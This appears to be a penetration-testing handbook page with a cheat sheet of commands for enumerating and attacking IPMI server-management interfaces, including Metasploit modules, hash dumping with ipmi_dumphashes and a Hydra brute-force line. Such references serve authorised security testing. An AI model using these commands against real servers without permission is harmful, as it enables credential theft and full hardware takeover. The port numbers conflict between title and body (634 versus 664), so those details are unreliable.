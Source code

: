 ```yaml
---
title: IPMI (623,634)
type: handbook
weight: 12
---
```

---

### Cheat sheet 

| Command                                                                                                 | Description                                      |
|---------------------------------------------------------------------------------------------------------|--------------------------------------------------|
| `nmap -sU -p 623 --script ipmi-version <target>`                                                        | Detect IPMI version and check if it's enabled    |
| `nmap -sU -p 623 --script ipmi-info <target>`                                                           | Grab vendor, firmware, and general IPMI info     |
| `ipmitool -I lanplus -H <target> -U <user> -P <pass> chassis status`                                    | Check server power state, temperature, etc.      |
| `ipmitool -I lanplus -H <target> -U <user> -P <pass> sol info`                                          | Fetch Serial-over-LAN configuration              |
| `ipmitool -I lanplus -H <target> -U <user> -P <pass> user list`                                         | Enumerate IPMI users                             |
| `ipmitool -I lanplus -H <target> -U <user> -P <pass> sensor`                                            | View full sensor readings                        |
| `ipmitool -I lanplus -H <target> -U <user> -P <user> power status`                                      | Check system power status                        |
| `ipmi_dumphashes -t <target>`                                                                           | Dump password hashes from vulnerable IPMI        |
| `hydra -l ADMIN -P rockyou.txt -s 623 <target> ipmi`                                                    | Brute-force IPMI credentials                     |
| `metasploit > use auxiliary/scanner/ipmi/ipmi_cipher_zero`                                              | Check for Cipher Zero vulnerability (auth bypass)|
| `metasploit > use auxiliary/scanner/ipmi/ipmi_version`                                                  | Enumerate IPMI version via Metasploit            |
| `metasploit > use auxiliary/scanner/ipmi/ipmi_dumphashes`                                               | Extract IPMI credentials via Metasploit          |


### NSE Scripts

`find / -type f -name "*ipmi*" 2>/dev/null | grep scripts`

```
/usr/share/nmap/scripts/ipmi-cipher-zero.nse
/usr/share/nmap/scripts/ipmi-version.nse
/usr/share/nmap/scripts/ipmi-info.nse
```

**IPMI** is a remote hardware management protocol often implemented in BMCs (Baseboard Management Controllers) on servers.
It allows full out-of-band control — power cycle, hardware sensors, serial console — even if the OS is off.

It uses:
• UDP 623 (main)<br>
• TCP 664 (RMCP+)

